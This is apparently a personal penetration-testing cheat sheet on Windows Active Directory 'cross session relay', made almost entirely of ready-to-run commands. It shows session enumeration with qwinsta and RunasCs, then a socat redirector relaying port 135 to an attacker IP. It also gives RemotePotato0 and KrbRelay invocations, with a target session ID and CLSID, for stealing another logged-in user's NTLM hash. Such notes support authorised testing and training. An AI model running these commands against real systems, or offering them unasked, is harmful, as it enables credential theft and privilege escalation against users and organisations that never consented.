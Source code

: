 ```yaml
---
title: "Cross Session Relay"
date: 2024-8-2
tags: ["cross session relay", "ntlm", "active driectory", "ad", "Windows", "krbrelay", "RemotePotato0"]
---
```


---
### Display information about the session host

```powershell
qwinsta *
``` 

```powershell
# Or runas
.\RunasCs.exe x x qwinsta -l 9
```

### Abuse #1: Steal NTLM hash

#### RemotePotato0

[RemotePotato0](https://github.com/antonioCoco/RemotePotato0)

```bash
# In local Linux 
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.11.10:9999
```

```bash
# Trigger Attack
.\RemotePotato0.exe -m 2 -s <TARGET_SESSION_ID> -x 10.10.14.10 -p 9999
```

#### KrbRelay

[KrbRelay](https://github.com/cube0x0/KrbRelay)

```bash
.\KrbRelay.exe -session <TARGET_SESSION_ID> -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm
```

```bash
# Or runas
.\RunasCs.exe x x -l 9 "C:\ProgramData\KrbRelay.exe -session <TARGET_SESSION_ID> -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm"
```

<br>
